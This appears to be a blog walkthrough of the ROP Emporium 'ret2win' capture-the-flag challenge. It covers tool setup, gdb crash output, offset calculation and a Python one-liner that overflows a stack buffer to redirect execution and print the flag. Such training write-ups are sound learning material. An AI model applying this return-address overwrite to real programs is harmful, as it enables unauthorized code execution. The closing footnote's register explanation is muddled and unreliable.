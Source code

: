 ```yaml
---
layout: post
title:  "Ret2win"
date:   21-02-2020 13:34:34
categories: exploitation
tags: Exploitation ROP_Emporium Ret2win
---
```


Requirement 
===========
First we download the zip file for the challenges:
{% highlight bash%}
wget https://ropemporium.com/binary/rop_emporium_all_challenges.zip
unzip rop_emporium_all_challenges.zip
{% endhighlight %}
Radare2
>Radare2 is a complete framework for reverse-engineering and analyzing binaries; composed of a set of small utilities that can be used together or independently from the command line.

{% highlight bash%}
apt-get install git
git clone https://github.com/radare/radare2
cd radare2
sys/install.sh
{% endhighlight %}
Ropper
>You can use ropper to display information about binary files in different file formats and you can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64). For disassembly ropper uses the awesome Capstone Framework.

{% highlight bash%}
apt install python-pip
pip install ropper
{% endhighlight %}
Pwntools
>Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

{% highlight bash%}
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
{% endhighlight %}
Peda
>PEDA - Python Exploit Development Assistance for GDB

{% highlight bash%}
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit
{% endhighlight %}

Ret2win
=======
A first glance at the binary using r2 shows for main functions:
{% highlight bash%}
0x00400746    1 111          sym.main
0x004007b5    1 92           sym.pwnme
0x00400811    1 32           sym.ret2win
{% endhighlight %}
Upon further examination, we can see to which address we need to return:
{% highlight bash%}
/ (fcn) sym.ret2win 32
|   sym.ret2win ();
|           0x00400811      55             push rbp
|           0x00400812      4889e5         mov rbp, rsp
|           0x00400815      bfe0094000     mov edi, str.Thank_you__Here_s_your_flag: ; 0x4009e0 ; "Thank you! Here's your flag:"
|           0x0040081a      b800000000     mov eax, 0
|           0x0040081f      e8ccfdffff     call sym.imp.printf
|           0x00400824      bffd094000     mov edi, str.bin_cat_flag.txt ; 0x4009fd ; "/bin/cat flag.txt"
|           0x00400829      e8b2fdffff     call sym.imp.system
|           0x0040082e      90             nop
|           0x0040082f      5d             pop rbp
\           0x00400830      c3             ret
{% endhighlight %}
Next we need to determine our offset:
{% highlight bash%}
Creating our patterne:
gdb ret2win
pattern_create 200
or 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
{% endhighlight %}
Once we provide our pattern to the binary we are greeted with:
{% highlight bash%}
Program received signal SIGSEGV, Segmentation fault.                                                      
[----------------------------------registers-----------------------------------]                          
RAX: 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
RBX: 0x0                                                                                                  
RCX: 0x0                                                                                                  
RDX: 0x7ffff7fa4590 --> 0x0                                                                               
RSI: 0x6022a1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'"...)
RDI: 0x7fffffffe131 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                  
RBP: 0x6141414541412941 ('A)AAEAAa')                                                                      
RSP: 0x7fffffffe158 ("AA0AAFAAb")                                                                         
RIP: 0x400810 (<pwnme+91>:      ret)                                                                      
R8 : 0x7fffffffe130 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")                                 
R9 : 0x7ffff7fa9500 (0x00007ffff7fa9500)                                                                  
R10: 0x410                                                                                                
R11: 0x246                                                                                                
R12: 0x400650 (<_start>:        xor    ebp,ebp)                                                           
R13: 0x7fffffffe240 --> 0x1                                                                               
R14: 0x0                                                                                                  
R15: 0x0                                                                                                  
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)                         
[-------------------------------------code-------------------------------------]                                                                                                                                    
   0x400809 <pwnme+84>: call   0x400620 <fgets@plt>                                                       
   0x40080e <pwnme+89>: nop                                                                               
   0x40080f <pwnme+90>: leave                                                                             
=> 0x400810 <pwnme+91>: ret                                                                               
   0x400811 <ret2win>:  push   rbp                                                                        
   0x400812 <ret2win+1>:        mov    rbp,rsp                                                            
   0x400815 <ret2win+4>:        mov    edi,0x4009e0                                                       
   0x40081a <ret2win+9>:        mov    eax,0x0                                                            
[------------------------------------stack-------------------------------------]                          
0000| 0x7fffffffe158 ("AA0AAFAAb")                                                                        
0008| 0x7fffffffe160 --> 0x400062 --> 0x1f8000000000000                                                   
0016| 0x7fffffffe168 --> 0x7ffff7e0ebbb (<__libc_start_main+235>:       mov    edi,eax)                                                                                                                             
0024| 0x7fffffffe170 --> 0x0                                                                              
0032| 0x7fffffffe178 --> 0x7fffffffe248 --> 0x7fffffffe53a ("/root/ropemporium/ret2win")                  
0040| 0x7fffffffe180 --> 0x100040000                                                                      
0048| 0x7fffffffe188 --> 0x400746 (<main>:      push   rbp)                                               
0056| 0x7fffffffe190 --> 0x0                                                                              
[------------------------------------------------------------------------------]                          
Legend: code, data, rodata, value                                                                         
Stopped reason: SIGSEGV                                                                                   
0x0000000000400810 in pwnme ()   
{% endhighlight %}
We can see that the stack pointer(RSP) has now been overwritten by the value "AA0AAFAAb"*.  Using this value, we can determine how much padding will be needed before writting the address to the fonction ret2win@0x00400811
{% highlight bash%}
pattern offset AA0AAFAAb
AA0AAFAAb found at offset: 40
{% endhighlight %}
Now if all goes according to plan, the follow line should return the flags:
{% highlight bash%}
python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
python -c 'print "\x90"*40                #Will take care of the padding
+"\x11\x08\x40\x00\x00\x00\x00\x00\x00"'  #Will write our address into RSP
   
root@kali:~/ropemporium# python -c 'print "\x90"*40 + "\x11\x08\x40\x00\x00\x00\x00\x00\x00"' | ./ret2win
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
Segmentation fault

{% endhighlight %}
   
*Note that the value of RIP has not been overwritten, this is because in the x64 architecture, the value will not be poped into RDI if it cannot be jumped to or executed.
